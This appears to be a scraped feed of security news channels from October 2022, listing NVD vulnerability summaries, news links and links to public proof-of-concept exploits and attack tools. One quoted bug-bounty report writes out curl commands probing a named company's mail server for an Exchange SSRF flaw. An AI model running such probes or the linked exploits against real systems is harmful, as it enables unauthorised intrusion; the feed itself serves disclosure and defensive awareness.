* https://github.com/its-arun/CVE-2022-39197

<blockquote>
​​CVE-2022-39197 RCE POC

https://github.com/its-arun/CVE-2022-39197

&#35;cve &#35;poc
</blockquote>

<table><tr><td><b>→</b><a href="https://telegra.ph/file/d732335f2f549e9a5c582.jpg">
https://telegra.ph/file/d732335f2f549e9a5c582.jpg
</a>
</td></tr></table>

---

# freedomf0x
`2022-10-18`

<blockquote>
&#35;threatleak &#35;cobaltstrike 

https://securityintelligence.com/posts/analysis-rce-vulnerability-cobalt-strike/
</blockquote>

<table><tr><td><b>→</b><a href="https://securityintelligence.com/posts/analysis-rce-vulnerability-cobalt-strike/">
https://securityintelligence.com/posts/analysis-rce-vulnerability-cobalt-strike/
</a>
<blockquote>
Explore the in-depth analysis on the RCE in Cobalt Strike 4.7.1 from IBM Security X-Force Red.
</blockquote>
</td></tr></table>

---

# defcon_news
`2022-10-18`

<blockquote>
Critical RCE Vulnerability Discovered in Popular Cobalt Strike Hacking Software
https://thehackernews.com/2022/10/critical-rce-vulnerability-discovered.html
</blockquote>

---

# cibsecurity
`2022-10-17`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-42149

<blockquote>
‼ CVE-2022-42149 ‼

kkFileView 4.0 is vulnerable to Server-side request forgery (SSRF) via controller\OnlinePreviewController.java.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-17`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-40606

<blockquote>
‼ CVE-2022-40606 ‼

MITRE CALDERA before 4.1.0 allows XSS in the Operations tab and/or Debrief plugin via a crafted operation name, a different vulnerability than CVE-2022-40605.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-17`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-41431

<blockquote>
‼ CVE-2022-41431 ‼

xzs v3.8.0 was discovered to contain a cross-site scripting (XSS) vulnerability in the component /admin/question/edit. This vulnerability allows attackers to execute arbitrary web scripts or HTML via a crafted payload injected into the Title text field.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-17`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-42143

<blockquote>
‼ CVE-2022-42143 ‼

Open Source SACCO Management System v1.0 is vulnerable to SQL Injection via /sacco_shield/manage_payment.php.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-17`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-41139

<blockquote>
‼ CVE-2022-41139 ‼

MITRE CALDERA 4.1.0 allows stored XSS via app.contact.gist (aka the gist contact configuration field), leading to execution of arbitrary commands on agents.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-17`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-42147

<blockquote>
‼ CVE-2022-42147 ‼

kkFileView 4.0 is vulnerable to Cross Site Scripting (XSS) via controller\ Filecontroller.java.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-17`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-40605

<blockquote>
‼ CVE-2022-40605 ‼

MITRE CALDERA before 4.1.0 allows XSS in the Operations tab and/or Debrief plugin via a crafted operation name, a different vulnerability than CVE-2022-40606.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-17`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-26375

<blockquote>
‼ CVE-2022-26375 ‼

Auth. (admin+) Stored Cross-Site Scripting (XSS) vulnerability in Mammothology AB Press Optimizer plugin &lt;&#61; 1.1.1 on WordPress.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-17`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-42029

<blockquote>
‼ CVE-2022-42029 ‼

Chamilo 1.11.16 is affected by an authenticated local file inclusion vulnerability which allows authenticated users with access to 'big file uploads' to copy/move files from anywhere in the file system into the web directory.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-17`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-32176

<blockquote>
‼ CVE-2022-32176 ‼

In &quot;Gin-Vue-Admin&quot;, versions v2.5.1 through v2.5.3b are vulnerable to Unrestricted File Upload that leads to execution of javascript code, through the &quot;Compress Upload&quot; functionality to the Media Library. When an admin user views the uploaded file, a low privilege attacker will get access to the admin's cookie leading to account takeover.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-17`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-22128

<blockquote>
‼ CVE-2022-22128 ‼

Tableau discovered a path traversal vulnerability affecting Tableau Server Administration Agent’s internal file transfer service that could allow remote code execution.Tableau only supports product versions for 24 months after release. Older versions have reached their End of Life and are no longer supported. They are also not assessed for potential security issues and do not receive security updates.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# freedomf0x
`2022-10-17`

* https://www.cobaltstrike.com/blog/out-of-band-update-cobalt-strike-4-7-2/
* https://www.cobaltstrike.com/blog/out-of-band-update-cobalt-strike-4-7-2/

<blockquote>
💥Вышла версия 4.7.2 кобальта, в которой запатчена RCE вулна, обнаруженная в Java Swing. Так что читаем и обновляемся.

💥Version 4.7.2 of cobalt strike has been released, which patches the RCE vulnerability found in Java Swing. So we  read &amp; update.
</blockquote>

---

# cibsecurity
`2022-10-17`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-42237

<blockquote>
‼ CVE-2022-42237 ‼

A SQL Injection issue in Merchandise Online Store v.1.0 allows an attacker to log in to the admin account.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-17`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-41472

<blockquote>
‼ CVE-2022-41472 ‼

74cmsSE v3.12.0 was discovered to contain a cross-site scripting (XSS) vulnerability via the component /apiadmin/notice/add. This vulnerability allows attackers to execute arbitrary web scripts or HTML via a crafted payload injected into the Title field.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-17`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-41498

<blockquote>
‼ CVE-2022-41498 ‼

Billing System Project v1.0 was discovered to contain a SQL injection vulnerability via the id parameter at /phpinventory/editbrand.php.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# defcon_news
`2022-10-17`

<blockquote>
Joomla OSG Courts Reservation 1.4.9 SQL Injection
http://exploit.kitploit.com/2022/10/joomla-osg-courts-reservation-149-sql.html
</blockquote>

<table><tr><td><b>→</b><a href="https://exploit.kitploit.com/2022/10/joomla-osg-courts-reservation-149-sql.html">
https://exploit.kitploit.com/2022/10/joomla-osg-courts-reservation-149-sql.html
</a>
<blockquote>
Exploit Collector is the ultimate collection of public exploits and exploitable vulnerabilities. Remote/Local Exploits, Shellcode and 0days.
</blockquote>
</td></tr></table>

---

# defcon_news
`2022-10-17`

<blockquote>
Joomla OSG Courts Reservation 1.4.9 SQL Injection
https://packetstormsecurity.com/files/168709/joomlaosgcr149-sql.txt
</blockquote>

<table><tr><td><b>→</b><a href="https://packetstormsecurity.com/files/168709/joomlaosgcr149-sql.txt">
https://packetstormsecurity.com/files/168709/joomlaosgcr149-sql.txt
</a>
<blockquote>
Information Security Services, News, Files, Tools, Exploits, Advisories and Whitepapers
</blockquote>
</td></tr></table>

---

# cibsecurity
`2022-10-17`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-3131

<blockquote>
‼ CVE-2022-3131 ‼

The Search Logger WordPress plugin through 0.9 does not properly sanitise and escape a parameter before using it in a SQL statement, leading to a SQL injection exploitable by high privilege users

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-17`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-3150

<blockquote>
‼ CVE-2022-3150 ‼

The WP Custom Cursors WordPress plugin through 3.0 does not properly sanitise and escape a parameter before using it in a SQL statement, leading to a SQL injection exploitable by high privileged users such as admin

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-17`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-3243

<blockquote>
‼ CVE-2022-3243 ‼

The Import all XML, CSV &amp; TXT WordPress plugin before 6.5.8 does not properly sanitise and escape imported data before using them back SQL statements, leading to SQL injection exploitable by high privilege users such as admin

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# defcon_news
`2022-10-17`

<blockquote>
A journey of fuzzing Nvidia graphic driver leading to LPE exploitation
https://www.reddit.com/r/netsec/comments/y6bjl4/a_journey_of_fuzzing_nvidia_graphic_driver/
</blockquote>

<table><tr><td><b>→</b><a href="https://www.reddit.com/r/netsec/comments/y6bjl4/a_journey_of_fuzzing_nvidia_graphic_driver/">
https://www.reddit.com/r/netsec/comments/y6bjl4/a_journey_of_fuzzing_nvidia_graphic_driver/
</a>
<blockquote>
Posted in r/netsec by u/jeandrew • 2 points and 0 comments
</blockquote>
</td></tr></table>

---

# freedomf0x
`2022-10-17`

<blockquote>
PoC for UAC bypass using arbitrary file delete in auto-elevated IFaultrepElevatedDataCollection COM object.

https://github.com/Wh04m1001/IFaultrepElevatedDataCollectionUAC
</blockquote>

---

# hackgit
`2022-10-17`

* https://user-images.githubusercontent.com/44291883/195949020-06764265-3e9a-4bfd-9d27-636da16d5570.mp4
* https://www.thezdi.com/blog/2022/3/16/abusing-arbitrary-file-deletes-to-escalate-privilege-and-other-great-tricks
* https://github.com/Wh04m1001/IFaultrepElevatedDataCollectionUAC

<blockquote>
IFaultrepElevatedDataCollectionUAC

PoC for UAC bypass using arbitrary file delete in auto-elevated IFaultrepElevatedDataCollection COM object. Arbitrary file delete is abused to get SYSTEM shell using method described here 

This PoC will just execute cmd.exe as system so in order to performe other actions such as executing different binary new RBS file should be created (using wix or other tools).

If you want to test this PoC it is the best to do it on system with minimum of 4 processor cores.

https://github.com/Wh04m1001/IFaultrepElevatedDataCollectionUAC
</blockquote>

<table><tr><td><b>→</b><a href="https://user-images.githubusercontent.com/44291883/195949020-06764265-3e9a-4bfd-9d27-636da16d5570.mp4">
https://user-images.githubusercontent.com/44291883/195949020-06764265-3e9a-4bfd-9d27-636da16d5570.mp4
</a>
</td></tr></table>

---

# sysadm_in_channel
`2022-10-17`

<blockquote>
/ Various Linux Kernel WLAN security issues (RCE/DOS) found

https://www.openwall.com/lists/oss-security/2022/10/13/2
</blockquote>

---

# hackgit
`2022-10-16`

* https://telegra.ph/file/b4777165f07f0680065ba.jpg
* https://github.com/r0oth3x49/ghauri

<blockquote>
​​Ghauri

An advanced cross-platform tool that automates the process of detecting and exploiting SQL injection security flaws

https://github.com/r0oth3x49/ghauri
</blockquote>

<table><tr><td><b>→</b><a href="https://telegra.ph/file/b4777165f07f0680065ba.jpg">
https://telegra.ph/file/b4777165f07f0680065ba.jpg
</a>
</td></tr></table>

---

# cibsecurity
`2022-10-15`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2017-20149

<blockquote>
‼ CVE-2017-20149 ‼

The Mikrotik RouterOS web server allows memory corruption in releases before Stable 6.38.5 and Long-term 6.37.5, aka Chimay-Red. A remote and unauthenticated user can trigger the vulnerability by sending a crafted HTTP request. An attacker can use this vulnerability to execute arbitrary code on the affected system, as exploited in the wild in mid-2017 and later.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-14`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-42340

<blockquote>
‼ CVE-2022-42340 ‼

Adobe ColdFusion versions Update 14 (and earlier) and Update 4 (and earlier) are affected by an Improper Input Validation vulnerability that could result in arbitrary file system read. Exploitation of this issue does not require user interaction.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-14`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-38447

<blockquote>
‼ CVE-2022-38447 ‼

Adobe Dimension versions 3.4.5 is affected by a Use After Free vulnerability that could result in arbitrary code execution in the context of the current user. Exploitation of this issue requires user interaction in that a victim must open a malicious file.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-14`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-41416

<blockquote>
‼ CVE-2022-41416 ‼

Online Tours &amp; Travels Management System v1.0 was discovered to contain a SQL injection vulnerability via the id parameter at /user/update_booking.php.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-14`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-39311

<blockquote>
‼ CVE-2022-39311 ‼

GoCD is a continuous delivery server. GoCD helps you automate and streamline the build-test-release cycle for continuous delivery of your product. GoCD versions prior to 21.1.0 are vulnerable to remote code execution on the server from a malicious or compromised agent. The Spring RemoteInvocation endpoint exposed agent communication and allowed deserialization of arbitrary java objects, as well as subsequent remote code execution. Exploitation requires agent-level authentication, thus an attacker would need to either compromise an existing agent, its network communication or register a new agent to practically exploit this vulnerability. This issue is fixed in GoCD version 21.1.0. There are currently no known workarounds.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-14`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-38418

<blockquote>
‼ CVE-2022-38418 ‼

Adobe ColdFusion versions Update 14 (and earlier) and Update 4 (and earlier) are affected by an Improper Limitation of a Pathname to a Restricted Directory ('Path Traversal') vulnerability that could result in arbitrary code execution in the context of the current user. Exploitation of this issue does not require user interaction.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-14`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-38445

<blockquote>
‼ CVE-2022-38445 ‼

Adobe Dimension versions 3.4.5 is affected by a Use After Free vulnerability that could result in arbitrary code execution in the context of the current user. Exploitation of this issue requires user interaction in that a victim must open a malicious file.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-14`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-38423

<blockquote>
‼ CVE-2022-38423 ‼

Adobe ColdFusion versions Update 14 (and earlier) and Update 4 (and earlier) are affected by an Improper Limitation of a Pathname to a Restricted Directory ('Path Traversal') vulnerability that could result in information disclosure. Exploitation of this issue does not require user interaction, but does require administrator privileges.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-14`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-42341

<blockquote>
‼ CVE-2022-42341 ‼

Adobe ColdFusion versions Update 14 (and earlier) and Update 4 (and earlier) are affected by an Improper Restriction of XML External Entity Reference ('XXE') vulnerability that could result in arbitrary file system read. Exploitation of this issue does not require user interaction.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-14`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-41477

<blockquote>
‼ CVE-2022-41477 ‼

A security issue was discovered in WeBid &lt;&#61;1.2.2. A Server-Side Request Forgery (SSRF) vulnerability in the admin/theme.php file allows remote attackers to inject payloads via theme parameters to read files across directories.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# freedomf0x
`2022-10-14`

* https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-37969
* https://www.zscaler.com/blogs/security-research/technical-analysis-windows-clfs-zero-day-vulnerability-cve-2022-37969-part

<blockquote>
💥Technical Analysis of Windows CLFS Zero-Day Vulnerability CVE-2022-37969 - Part 1: Root Cause Analysis

An attacker who successfully exploits this vulnerability may gain SYSTEM privileges. The 0-day exploit can execute the privilege escalation successfully on Windows 10 and Windows 11 prior to the September patch. The cause of the vulnerability is due to the lack of a strict bounds check on the field cbSymbolZone in the Base Record Header for the base log file (BLF) in CLFS.sys. If the field cbSymbolZone is set to an invalid offset, an out-of-bound write will occur at the invalid offset. In this two-part blog series, we will demystify the vulnerability and the 0-day exploit discovered in-the-wild. The blogs consist of two parts: an analysis of the root cause, and an analysis of the exploit. In this blog, we first present a detailed analysis of the root cause for CVE-2022-37969.
</blockquote>

---

# cibsecurity
`2022-10-14`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-42232

<blockquote>
‼ CVE-2022-42232 ‼

Simple Cold Storage Management System v1.0 is vulnerable to SQL Injection via /csms/classes/Master.php?f&#61;delete_storage.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# defcon_news
`2022-10-14`

<blockquote>
Researchers Reveal Detail for Windows Zero-Day Vulnerability Patched Last Month
https://thehackernews.com/2022/10/researchers-reveal-detail-for-windows.html
</blockquote>

---

# cibsecurity
`2022-10-14`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-42064

<blockquote>
‼ CVE-2022-42064 ‼

Online Diagnostic Lab Management System version 1.0 remote exploit that bypasses login with SQL injection and then uploads a shell.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-14`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-3504

<blockquote>
‼ CVE-2022-3504 ‼

A vulnerability was found in SourceCodester Sanitization Management System and classified as critical. This issue affects some unknown processing of the file /php-sms/?p&#61;services/view_service. The manipulation of the argument id leads to sql injection. The attack may be initiated remotely. The exploit has been disclosed to the public and may be used. The associated identifier of this vulnerability is VDB-210839.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-14`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-42071

<blockquote>
‼ CVE-2022-42071 ‼

Online Birth Certificate Management System version 1.0 suffers from a Cross Site Scripting (XSS) Vulnerability.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-14`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-3506

<blockquote>
‼ CVE-2022-3506 ‼

Cross-site Scripting (XSS) - Stored in GitHub repository barrykooij/related-posts-for-wp prior to 2.1.3.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-14`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-42069

<blockquote>
‼ CVE-2022-42069 ‼

Online Birth Certificate Management System version 1.0 suffers from a persistent Cross Site Scripting (XSS) vulnerability.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-14`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-36802

<blockquote>
‼ CVE-2022-36802 ‼

The ManageJiraConnectors API in Atlassian Jira Align before version 10.109.2 allows remote attackers to exploit this issue to access internal network resources via a Server-Side Request Forgery. This can be exploited by a remote, unauthenticated attacker with Super Admin privileges by sending a specially crafted HTTP request.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-14`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-35134

<blockquote>
‼ CVE-2022-35134 ‼

Boodskap IoT Platform v4.4.9-02 contains a cross-site scripting (XSS) vulnerability.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-14`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-41391

<blockquote>
‼ CVE-2022-41391 ‼

OcoMon v4.0 was discovered to contain a SQL injection vulnerability via the cod parameter at showImg.php.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-14`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-41390

<blockquote>
‼ CVE-2022-41390 ‼

OcoMon v4.0 was discovered to contain a SQL injection vulnerability via the cod parameter at download.php.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-14`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-34021

<blockquote>
‼ CVE-2022-34021 ‼

Multiple Cross Site Scripting (XSS) vulnerabilities in ResIOT IOT Platform + LoRaWAN Network Server through 4.1.1000114 via the form fields.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-14`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-39303

<blockquote>
‼ CVE-2022-39303 ‼

Ree6 is a moderation bot. This vulnerability allows manipulation of SQL queries. This issue has been patched in version 1.7.0 by using Javas PreparedStatements, which allow object setting without the risk of SQL injection. There are currently no known workarounds.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-14`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-34022

<blockquote>
‼ CVE-2022-34022 ‼

SQL injection vulnerability in ResIOT IOT Platform + LoRaWAN Network Server through 4.1.1000114 via a crafted POST request to /ResiotQueryDBActive.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-14`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-35612

<blockquote>
‼ CVE-2022-35612 ‼

A cross-site scripting (XSS) vulnerability in MQTTRoute v3.3 and below allows attackers to execute arbitrary web scripts or HTML via a crafted payload injected into the dashboard name text field.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# defcon_news
`2022-10-13`

<blockquote>
Acronis:  mail.acronis.com is vulnerable to zero day vulnerability CVE-2022-41040
https://vulners.com/hackerone/H1:1719719?utm_source&#61;rss&amp;utm_medium&#61;rss&amp;utm_campaign&#61;rss
</blockquote>

<table><tr><td><b>→</b><a href="https://vulners.com/hackerone/H1:1719719">
https://vulners.com/hackerone/H1:1719719
</a>
<blockquote>
Hello Acronis team, Please run curl -ksL -m5  -o /dev/null -I -w &quot;%{http_code}&quot; &quot;https://mail.acronis.com/autodiscover/autodiscover.json?Email&#61;autodiscover/autodiscover.json@outlook.com&amp;Protocol&#61;ActiveSync&quot; curl -ksL -m5 &quot;https://mail.acronis.com/autodiscover/autodiscover.json?Email&#61;autodiscover/autodiscover.json@outlook.com&amp;Protocol&#61;ActiveSync&quot; | grep Protocol and get following output 404 and {&quot;Protocol&quot;:&quot;ActiveSync&quot;,&quot;Url&quot;:&quot;https://eas.outlook.com/Microsoft-Server-ActiveSync&quot;} Proving that  mail.acronis.com is vulnerable to CVE-2022-41040 Poc video attached Impact SSRF can be used to for unauthorized actions or access to confidential...
</blockquote>
</td></tr></table>

---

# cibsecurity
`2022-10-13`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-41473

<blockquote>
‼ CVE-2022-41473 ‼

RPCMS v3.0.2 was discovered to contain a reflected cross-site scripting (XSS) vulnerability in the Search function.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-13`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-37208

<blockquote>
‼ CVE-2022-37208 (jfinal_cms) ‼

JFinal CMS 5.1.0 is vulnerable to SQL Injection. These interfaces do not use the same component, nor do they have filters, but each uses its own SQL concatenation method, resulting in SQL injection.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-13`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-38902

<blockquote>
‼ CVE-2022-38902 ‼

A Cross-site scripting (XSS) vulnerability in the Blog module - add new topic functionality in Liferay Digital Experience Platform 7.3.10 SP3 allows remote attackers to inject arbitrary JS script or HTML into the name field of newly created topic.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-13`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2021-20030

<blockquote>
‼ CVE-2021-20030 ‼

SonicWall GMS is vulnerable to file path manipulation resulting that an unauthenticated attacker can gain access to web directory containing application's binaries and configuration files.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-13`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-3471

<blockquote>
‼ CVE-2022-3471 ‼

A vulnerability was found in SourceCodester Human Resource Management System. It has been declared as critical. Affected by this vulnerability is an unknown functionality of the file city.php. The manipulation of the argument searccity leads to sql injection. The attack can be launched remotely. The exploit has been disclosed to the public and may be used. The associated identifier of this vulnerability is VDB-210715.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-13`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-3472

<blockquote>
‼ CVE-2022-3472 ‼

A vulnerability was found in SourceCodester Human Resource Management System. It has been rated as critical. Affected by this issue is some unknown functionality of the file city.php. The manipulation of the argument cityedit leads to sql injection. The attack may be launched remotely. The exploit has been disclosed to the public and may be used. The identifier of this vulnerability is VDB-210716.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-13`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-3470

<blockquote>
‼ CVE-2022-3470 ‼

A vulnerability was found in SourceCodester Human Resource Management System. It has been classified as critical. Affected is an unknown function of the file getstatecity.php. The manipulation of the argument sc leads to sql injection. It is possible to launch the attack remotely. The exploit has been disclosed to the public and may be used. VDB-210714 is the identifier assigned to this vulnerability.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-13`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-3473

<blockquote>
‼ CVE-2022-3473 ‼

A vulnerability classified as critical has been found in SourceCodester Human Resource Management System. This affects an unknown part of the file getstatecity.php. The manipulation of the argument ci leads to sql injection. It is possible to initiate the attack remotely. The exploit has been disclosed to the public and may be used. The identifier VDB-210717 was assigned to this vulnerability.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-12`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-41403

<blockquote>
‼ CVE-2022-41403 ‼

OpenCart 3.x Newsletter Custom Popup was discovered to contain a SQL injection vulnerability via the email parameter at index.php?route&#61;extension/module/so_newletter_custom_popup/newsletter.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-12`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-3467

<blockquote>
‼ CVE-2022-3467 ‼

A vulnerability classified as critical was found in Jiusi OA. Affected by this vulnerability is an unknown functionality of the file /jsoa/hntdCustomDesktopActionContent. The manipulation of the argument inforid leads to sql injection. The exploit has been disclosed to the public and may be used. The identifier VDB-210709 was assigned to this vulnerability.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-12`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-42715

<blockquote>
‼ CVE-2022-42715 ‼

A reflected XSS vulnerability exists in REDCap before 12.04.18 in the Alerts &amp; Notifications upload feature. A crafted CSV file will, when uploaded, trigger arbitrary JavaScript code execution.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# defcon_news
`2022-10-12`

<blockquote>
A deep dive into CVE-2021–42847 - arbitrary file write and XXE in ManageEngine ADAudit Plus before 7006
https://www.reddit.com/r/netsec/comments/y2508q/a_deep_dive_into_cve202142847_arbitrary_file/
</blockquote>

<table><tr><td><b>→</b><a href="https://www.reddit.com/r/netsec/comments/y2508q/a_deep_dive_into_cve202142847_arbitrary_file/">
https://www.reddit.com/r/netsec/comments/y2508q/a_deep_dive_into_cve202142847_arbitrary_file/
</a>
<blockquote>
Posted in r/netsec by u/kalibabka • 1 point and 0 comments
</blockquote>
</td></tr></table>

---

# defcon_news
`2022-10-12`

<blockquote>
[CVE-2022-39802] File path traversal vulnerability in SAP Manufacturing Execution
https://www.reddit.com/r/netsec/comments/y20xkh/cve202239802_file_path_traversal_vulnerability_in/
</blockquote>

<table><tr><td><b>→</b><a href="https://www.reddit.com/r/netsec/comments/y20xkh/cve202239802_file_path_traversal_vulnerability_in/">
https://www.reddit.com/r/netsec/comments/y20xkh/cve202239802_file_path_traversal_vulnerability_in/
</a>
<blockquote>
Posted in r/netsec by u/vah_13 • 1 point and 0 comments
</blockquote>
</td></tr></table>

---

# defcon_news
`2022-10-12`

<blockquote>
Microsoft Patch Tuesday Fixes New Windows Zero-Day; No Patch for Exchange Server Bugs
https://thehackernews.com/2022/10/microsoft-patch-tuesday-fixes-new.html
</blockquote>

---

# hackgit
`2022-10-12`

* https://telegra.ph/file/c62714babbc53ab051f0d.jpg
* https://github.com/CarlosV1e1ra/CVE-2022-40684-RCE-POC

<blockquote>
​​CVE-2022-40684

Remote Fortinet Code Exeuction vulnerability

On October 7, public reports began to circulate that Fortinet communicated directly with customers about a critical vulnerability in its FortiOS and FortiProxy products. This vulnerability, CVE-2022-40684, has been patched, but Fortinet has not released a full advisory yet via its Product Security Incident Response Team.

Fortinet usually follows a monthly release schedule for security advisories on the second Tuesday of every month, the same day as Microsoft’s Patch Tuesday. At the time this blog post was originally published, it remained to be seen whether Fortinet was going to follow the same schedule for the CVE-2022-40684 advisory.

https://github.com/CarlosV1e1ra/CVE-2022-40684-RCE-POC

